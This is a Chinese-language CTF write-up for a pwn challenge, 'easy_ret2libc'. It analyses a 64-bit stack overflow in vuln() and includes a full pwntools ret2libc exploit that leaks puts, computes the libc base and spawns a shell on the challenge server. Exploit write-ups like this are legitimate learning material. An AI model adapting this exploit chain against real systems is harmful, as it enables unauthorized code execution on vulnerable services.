

# Pwn Writeup: easy_ret2libc

## flag：``flag{35def34b-5617-49f8-8166-443bbff5a1ac}``
#### 解题人：种花草的貔貅
## 一、 题目基本信息
- 题目类型：Pwn / 栈溢出 / Ret2libc
- 保护机制（通过 `checksec` 获取）：
- Arch: amd64-64-little
- RELRO: Partial RELRO (GOT 表可写)
- Stack: No canary found (无栈溢出保护)
- NX: NX enabled (栈不可执行)
- PIE: No PIE (未开启地址随机化，基址固定为 0x400000)

附图：


## 二、 漏洞分析

使用 IDA 分析程序主逻辑，核心漏洞位于 `vuln` 函数：

```text
ssize_t vuln()
{
  _BYTE buf[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Do you know ret2libc?");
  puts("Leave your name: ");
  read(0, buf, 0x100u);
  return puts("Nice to meet you!");
}
```

漏洞点：`read` 函数允许读入 0x100 (256) 字节的数据，但 `buf` 缓冲区只有 32 (0x20) 字节。这导致了典型的栈溢出漏洞。

计算偏移量（Padding）：
- 缓冲区大小：`32` 字节。
- RBP 大小：`8` 字节。
- 溢出至返回地址的偏移量 = `32` + `8` = `40` 字节。

## 三、 利用思路（Ret2libc）
由于程序开启了 NX 保护，无法直接在栈上执行 `shellcode`。同时程序本身既没有调用过 `system` 函数，也没有 `/bin/sh` 字符串。因此需要使用 `Ret2libc` 技术。~~题目已经提示的很明显的说~~。
1. **第一阶段（Leak）**：利用栈溢出构造 ROP 链，调用 `puts` 函数打印出 `puts` 在 GOT 表中的真实地址，然后让程序返回到 `vuln` 函数开头，以便进行第二次溢出。
2. **第二阶段（Get Shell）**：根据泄露的 `puts` 真实地址，减去 `puts` 在 `libc` 中的偏移，计算出 `libc` 基址。进而求出 `system` 和 `/bin/sh` 的真实地址。再次触发溢出，调用 `system("/bin/sh")`。

## 四、 踩坑记录（避坑指南）
在编写 EXP 时，遇到了以下几个非常经典的坑，值得牢记：
1.** Kali 环境问题（PEP 668）**：新版本 Kali 禁止直接 pip install 安装系统级包，报错 externally-managed-environment。需加上 `--break -system -packages` 参数。
2. **Pwntools 语法误用**：`elf.got` 是个字典对象，取值必须用 `elf.got['puts']`，而不是 `elf.got('puts')`。
3. **拼写错误**：把 `recvuntil` 拼成了 `recvuntib`；把 `ljust`（左对齐补齐）拼成了 `just`。导致报 `AttributeError`。
4. **字符串截断问题**：`recvuntil(b"Nice to meet you!\n")` 接收后，如果没把换行符 `\n` 吃掉，下一步 `recvline()` 会直接读到一个空行，导致泄露地址计算错误。或者使用 `recv(6)` 直接接收地址字节。
5. **read 读取截断**：`read` 要求读满 `0x100` 字节，如果发送的 `payload` 不够长，程序可能会卡住等待。需要使用 `payload.ljust(0x100, b'\x00')` 补齐。
6. **栈对齐（Stack Alignment）**：这是最容易卡住的一步。在 64 位下调用 `system` 时，要求 RSP 必须 `16` 字节对齐。如果直接在 `pop_rdi; ret` 后接 `system`，会导致崩溃（EOF）。解决方法是在 `pop_rdi` 前面加一个单独的纯 `ret` 指令地址。

### exp.py
```py
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./chall')

pop_rdi = 0x40117e
ret_addr = 0x40101a    
vuln_addr = 0x401183  

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

p = remote("nc1.ctfplus.cn", "21330")

payload1 = b'a' * 40
payload1 += p64(ret_addr) 
payload1 += p64(pop_rdi) 
payload1 += p64(puts_got)
payload1 += p64(puts_plt)
payload1 += p64(vuln_addr) 

p.recvuntil(b"Leave your name: \n")
p.send(payload1.ljust(0x100, b'\x00')) 

p.recvuntil(b"Nice to meet you!\n")
leaked_puts = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f"Leaked puts address: {hex(leaked_puts)}")

libc = ELF("./libc.so.6")
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh')) 

log.success(f"Libc base: {hex(libc_base)}")
log.success(f"System: {hex(system_addr)}")

payload2 = b'a' * 40
payload2 += p64(ret_addr)
payload2 += p64(ret_addr)
payload2 += p64(pop_rdi)
payload2 += p64(binsh_addr)
payload2 += p64(system_addr)

p.recvuntil(b"Leave your name: \n")
p.send(payload2.ljust(0x100, b'\x00'))

p.interactive()
```